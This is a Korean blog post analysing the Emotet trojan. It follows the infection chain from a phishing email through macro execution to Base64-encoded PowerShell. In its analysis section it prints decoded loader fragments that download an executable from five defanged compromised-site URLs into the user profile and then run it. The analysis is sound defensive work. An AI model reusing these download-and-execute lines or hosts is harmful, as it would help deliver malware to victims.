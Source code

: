 ```yaml
---
date: 2022-10-13T04:00:00
draft: false
title: "Emotet 악성코드 분석"
description: 
featured_image: "cdn/respond/emotet-malware-analysis-1.png"
tags: ["Emotet", "트로이 목마", "PowerShell", "악성코드", "사이버 보안"]
---
```


## Emotet(이모텟)?

- 주로 이메일을 통해 확산되는 트로이 목마
- 합법적인 이메일처럼 보이도록 가장하여 사용자가 악성 파일을 클릭하도록 유도
- 트로이 목마를 업데이트하고 기본적으로 시스템에 액세스한 다음 운영자가 추가 페이로드를 다운로드할 수 있도록 하는 악성코드 유형인 "로더"로 작동하도록 구성
- 감염된 호스트에서 은행 자격 증명을 훔치거나, 피해자들로부터 돈을 갈취하는 것을 목표로 동작
<br>

<!--more-->

![emotet-malware-analysis](https://blog.plura.io/cdn/respond/emotet-malware-analysis-1.png)

## Emotet 실행/분석

### 1. 사회 공학 기법을 이용해 공격 대상에게 메일 발송
![02](https://github.com/user-attachments/assets/5dae9811-e676-4697-b7ee-a84f229d9b2b)
<br><br>


### 2. 공격 대상은 의심없이 첨부 파일 다운로드
![03](https://github.com/user-attachments/assets/e647b197-5a0b-47da-abd9-f13709fc17fc)
<br><br>


### 3. 파일 Open. 매크로 실행을 위해 'Enable Content' 클릭
![04](https://github.com/user-attachments/assets/7f4d218d-10d8-4d50-a008-31c9ee7e304f)
<br><br>


### 4. Base64 인코딩된 코드 PowerShell 프로세스로 실행 시도
![05](https://github.com/user-attachments/assets/80f38782-331a-49e3-aebc-9ba41e7a2c36)
<br><br>


### 5. PowerShell 명령어에 의해 conhost 실행
![06](https://github.com/user-attachments/assets/86c4c82b-baae-45af-b68b-e9cea82786aa)

![07](https://github.com/user-attachments/assets/ad597df8-9608-4995-9dfa-b6b38545088e)
<br><br>


### 6. PowerShell 스크립트 코드 실행
![08](https://github.com/user-attachments/assets/54c535af-f81f-44d5-870e-d7d9e5de3d84)
<br><br>


### 7. PowerShell 스크립트 코드 분석
![09](https://github.com/user-attachments/assets/e875c2f5-5371-41d6-97ea-f31777ccc789)
<br>

1) 아래 URL 에서 파일 다운로드
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxp://blockchainjoblist.com/wp-admin/014080/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://womenempowermentpakistan.com/wp-admin/paba5q52/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://atnimanvilla.com/wp-content/073735/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://yeuquynhnhai.com/upload/41830/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://deepikarai.com/js/4bzs6/)

2) 아래 경로에 파일 저장
$env:userprofile\284.exe

3) 23931 bytes 이상이면 실행
(Get-Item $env:userprofile\284.exe).LeNgTh -ge 23931

<br>

### 8. 사용자 폴더에 파일 생성
![010](https://github.com/user-attachments/assets/c0522f7e-2c7c-4751-90c5-a3780de0902b)

![011](https://github.com/user-attachments/assets/3bf9893f-d832-4331-bc2b-5be171e84f9e)

![012](https://github.com/user-attachments/assets/773bc501-4236-4bbc-9766-510595828a77)
<br>

📖 함께 읽기
- [wiki_Emotet](https://en.wikipedia.org/wiki/Emotet)
- [malwarebytes_Emotet](https://www.malwarebytes.com/emotet)



